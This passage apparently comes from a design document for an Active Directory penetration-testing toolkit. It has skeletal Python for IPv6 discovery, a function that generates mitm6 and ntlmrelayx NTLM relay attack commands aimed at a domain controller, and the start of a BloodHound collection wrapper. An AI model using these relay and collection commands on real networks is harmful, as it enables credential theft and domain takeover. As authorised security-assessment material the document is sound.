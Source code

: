 ```python
    cmd = ['nmap', '-6', '-sn', network]
    
    # Or use ping6
    # Or use IPv6 neighbor discovery

def test_ipv6_dns_spoofing(interface: str) -> dict:
    """Test IPv6 DNS spoofing vulnerability"""
    # Check if DHCPv6 is vulnerable
    # Test DNS resolution over IPv6

def generate_mitm6_commands() -> None:
    """Generate mitm6 attack commands"""
    commands = [
        f"# IPv6 Attack Commands\n",
        f"# mitm6 + ntlmrelayx combo\n\n",
        f"# Terminal 1: Start mitm6\n",
        f"mitm6 -d domain.local -i eth0\n\n",
        f"# Terminal 2: Start ntlmrelayx\n",
        f"impacket-ntlmrelayx -6 -t ldaps://DC_IP -wh fakewpad.domain.local -l loot\n"
    ]
```

---

### 4. BloodSeek - BloodHound Data Collection ⭐⭐⭐

**Purpose**: Automate BloodHound data collection  
**Priority**: HIGH - Essential for AD assessment

#### Why This Tool is Needed
- **Standard Practice**: BloodHound is industry standard
- **Attack Paths**: Visualize privilege escalation paths
- **Automation**: Streamline data collection
- **Integration**: Fits perfectly with SeekSweet workflow

#### Functionality
```python
#!/usr/bin/env python3
"""
BloodSeek - BloodHound Data Collection Tool

Features:
- Run SharpHound remotely
- Collect AD data with BloodHound.py
- Support multiple collection methods
- Generate attack path queries
- Export ready-to-analyze data

Collection Methods:
- BloodHound.py (Python, works from Linux)
- SharpHound.exe (C#, works from Windows)
- azurehound (Azure AD)
"""

def collect_bloodhound_data(domain: str, username: str, password: str) -> None:
    """Collect BloodHound data"""
    # Method 1: BloodHound.py
    cmd = [
        'bloodhound-python',
        '-d', domain,
        '-u', username,
        '-p', password,
        '-dc', 'DC_IP',
        '-c', 'All',
```